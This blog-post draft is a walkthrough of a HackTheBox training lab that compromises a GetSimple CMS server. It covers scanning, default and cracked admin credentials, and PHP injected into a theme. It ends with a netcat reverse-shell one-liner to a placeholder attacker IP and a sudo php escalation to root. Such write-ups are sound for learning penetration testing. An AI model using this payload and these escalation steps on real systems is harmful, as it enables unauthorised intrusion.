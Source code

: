 +++
title = "HTB-Init-test-skills"
date = "2025-02-16T09:12:30-06:00"
#dateFormat = "2006-01-02" # This value can be configured for per-post date formatting
author = "corrupter"
authors = ["corrupter"]
authorTwitter = "" #do not include @
cover = ""
tags = ["Writeup", "Pentesting"]
keywords = ["", ""]
description = ""
showFullContent = false
hideComments = true 
draft = true 
+++

# Module Getting Started: Knowledge check

We get an IP adress target `$TARGET` which we have to pwn.

First, we make a simple nmap scan to get open services, versions and ports:

```sh
nmap -sV --open -oA start-skills-init-recon $TARGET
```

We get two services:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The second seems to be a web server, running a page as the port is 80, for http. We run
a scan with `whatweb`:

```sh
$ whatweb $TARGET
http://$TARGET [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[$TARGET]
```

We get not many info, so heading to the page with a browser, we see the server
uses GetSimple CMS. `searchsploit` gives us some interesting information for vulnerabilities:

```sh
$ searchsploit GetSimple
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Getsimple CMS 2.01 - 'changedata.php' Cross-Site Scripting                         | php/webapps/34789.html
Getsimple CMS 2.01 - 'components.php' Cross-Site Scripting                         | php/webapps/34041.txt
Getsimple CMS 2.01 - Local File Inclusion                                          | php/webapps/12517.txt
Getsimple CMS 2.01 - Multiple Vulnerabilities                                      | php/webapps/14338.html
Getsimple CMS 2.01 < 2.02 - Administrative Credentials Disclosure                  | php/webapps/15605.txt
Getsimple CMS 2.03 - 'upload-ajax.php' Arbitrary File Upload                       | php/webapps/35353.txt
Getsimple CMS 3.0 - 'set' Local File Inclusion                                     | php/webapps/35726.py
Getsimple CMS 3.1.2 - 'path' Local File Inclusion                                  | php/webapps/37587.txt
Getsimple CMS 3.2.1 - Arbitrary File Upload                                        | php/webapps/25405.txt
GetSimple CMS 3.3.1 - Cross-Site Scripting                                         | php/webapps/43888.txt
Getsimple CMS 3.3.1 - Persistent Cross-Site Scripting                              | php/webapps/32502.txt
Getsimple CMS 3.3.10 - Arbitrary File Upload                                       | php/webapps/40008.txt
GetSimple CMS 3.3.13 - Cross-Site Scripting                                        | php/webapps/44408.txt
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting                             | php/webapps/49726.py
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting (Authenticated)             | php/webapps/48850.txt
GetSimple CMS 3.3.4 - Information Disclosure                                       | php/webapps/49928.py
GetSimple CMS Custom JS 0.1 - Cross-Site Request Forgery                           | php/webapps/49816.py
Getsimple CMS Items Manager Plugin - 'PHP.php' Arbitrary File Upload               | php/webapps/37472.php
GetSimple CMS My SMTP Contact Plugin 1.1.1 - Cross-Site Request Forgery            | php/webapps/49774.py
GetSimple CMS My SMTP Contact Plugin 1.1.2 - Persistent Cross-Site Scripting       | php/webapps/49798.py
GetSimple CMS Plugin Multi User 1.8.2 - Cross-Site Request Forgery (Add Admin)     | php/webapps/48745.txt
GetSimple CMS v3.3.16 - Remote Code Execution (RCE)                                | php/webapps/51475.py
GetSimpleCMS - Unauthenticated Remote Code Execution (Metasploit)                  | php/remote/46880.rb
----------------------------------------------------------------------------------- ---------------------------------
```

Seems like we can upload or run arbitrary code. Meanwhile, `gobuster` gives us useful paths to
explore:

```sh
$ gobuster dir -u http://$TARGET -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$TARGET
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://$TARGET/admin/]
/backups              (Status: 301) [Size: 316] [--> http://$TARGET/backups/]
/data                 (Status: 301) [Size: 313] [--> http://$TARGET/data/]
/index.php            (Status: 200) [Size: 5485]
/plugins              (Status: 301) [Size: 316] [--> http://$TARGET/plugins/]
/robots.txt           (Status: 200) [Size: 32]
/server-status        (Status: 403) [Size: 278]
/sitemap.xml          (Status: 200) [Size: 431]
/theme                (Status: 301) [Size: 314] [--> http://$TARGET/theme/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

The paths `/admin` and `/data` seem promising, so we explore them. The former gives us a
login page. Trying default passwords like `admin:admin` actually works, but alternatively
we could have searched the later directory and see that in the `/users` subdirectory resides
an `admin.xml` file with the following content:

```xml
<item>
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>
<HTMLEDITOR>1</HTMLEDITOR>
<TIMEZONE/>
<LANG>en_US</LANG>
</item>
```

We see a hash, which `john` can easily crack and thus, obtaining the same credentials

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt admin-xml-hash
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (?)
1g 0:00:00:00 DONE (2024-12-25 13:26) 50.00g/s 991200p/s 991200c/s 991200C/s alcala..LOVE1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

When logging, we see many components in the admin pannel. Our interest is,
initially, the `upload.php` as `searchsploit` indicated a file upload
vulnerability, but the upload button seemed to be disabled. Searching around we
see that we can edit the theme code in the `themes.php` component. Using a
simple script like `<?php system('id'); ?>` works when reloading the page (note
that the edited theme must be enabled). We can then use a revshell like:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTCK_MACHINE_IP] [PORT] >/tmp/f") ?>
```

> [!IMPORTANT]
> You might save a copy of the original php template as this might disrupt the server.

Make sure to substitute `ATTCK_MACHINE_IP` by your machine IP through a VPN and
`PORT` by a choice port.

We listen with netcat at the port specified in the payload with `nc -lvnp PORT`
and see that, on page reload, the connection is stabilshed. There we can go to
the directory `/home/mrb3n` to get the `user.txt` flag.

To escalate privileges we explore binaries. Running `sudo -l` we see that a php
binary can be used with root privileges without password by all users:

```sh
$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

$ ls -l /usr/bin/php
lrwxrwxrwx 1 root root 21 Feb  9  2021 /usr/bin/php -> /etc/alternatives/php
```

A quick search in GTFObins tells us we can escalate to root as follows:

```sh
$ CMD="/bin/sh"
$ sudo php -r "system('$CMD');"
```

With this, we can get the last flag `root.txt` at the `/root/` directory.

We then successfully pwned the box.
